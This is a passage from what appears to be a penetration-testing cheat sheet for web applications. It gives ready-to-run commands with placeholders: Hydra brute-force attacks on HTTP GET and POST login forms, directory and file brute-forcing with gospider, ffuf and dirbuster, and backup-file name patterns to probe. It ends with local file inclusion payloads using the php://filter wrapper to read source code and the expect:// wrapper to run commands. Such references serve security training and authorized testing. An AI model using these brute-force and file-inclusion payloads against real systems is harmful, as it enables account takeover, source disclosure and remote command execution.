 #### HTTP GET request

```
hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
```

#### HTTP POST request

```
hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>
```

### Spidering / Brute force directories / files

```
gospider -d <DEPTHS> --robots --sitemap -t <THREADS> -s <URL>

ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/FUZZ -e .php,.txt -t <THREADS>
dirbuster

Dictionaries :
   - /usr/share/wordlists/dirb/common.txt
   - /usr/share/wordlists/dirb/big.txt
   - /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

#### File backups

Once you have found all the files, look for backups of all the executable files (“_.php_”, “_.aspx_“…). Common variations for naming a backup are

```
file.ext~, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp and file.old
```

### Local File Inclusion / Remote File Inclusion - LFI / RFI

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
```

#### Wrappers

##### Wrapper php://filter

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=
```

##### Wrapper expect://

```
http://example.com/index.php?page=expect://id
```

